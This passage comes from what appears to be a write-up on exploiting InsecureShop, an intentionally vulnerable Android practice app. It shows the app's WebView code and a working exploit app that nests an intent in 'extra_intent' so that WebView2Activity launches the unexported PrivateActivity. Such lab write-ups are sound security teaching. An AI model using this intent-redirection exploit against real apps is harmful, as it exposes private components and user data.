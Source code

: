 ```java
    public void onCreate(Bundle savedInstanceState) {
        String data = getIntent().getStringExtra("url");
        if (data == null) {
            data = "https://www.insecureshopapp.com"; 
        }
        webview.loadUrl(data);
        Prefs.INSTANCE.getInstance(this).setData(data);
    }
```

Here is, the `PrivateActivity` is an unexported activity that cannot be accessed directly, so we can exploit the vulnerability that arises in the `WebView2Activity` to access it. We have two ways to exploit it, using the ADB AM or by creating an exploit application. Unfortunately, I have tried a lot with the am command, but I couldn’t figure out the correct command. So let’s create an exploit app. I will create an app with an empty activity through Android Studio and add the following code:

```java
public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Button IntentButton = (Button) findViewById(R.id.IntentButton);
        // Set a click listener to send the intent
        IntentButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
            // Making an Intent to the PrivateActivity with the extra "url"
                Intent privateActivityIntent = new Intent();
                privateActivityIntent.setClassName("com.insecureshop", "com.insecureshop.PrivateActivity");
                privateActivityIntent.putExtra("url", "https://itsfading.github.io");

            // Passing the whole intent to the extra_intent So we trigger the startActivity in the WebView2Activity class
                Intent webViewIntent = new Intent();
                webViewIntent.setClassName("com.insecureshop", "com.insecureshop.WebView2Activity");
                webViewIntent.putExtra("extra_intent", privateActivityIntent); 
                startActivity(webViewIntent);
            }
        });
    }
}
```
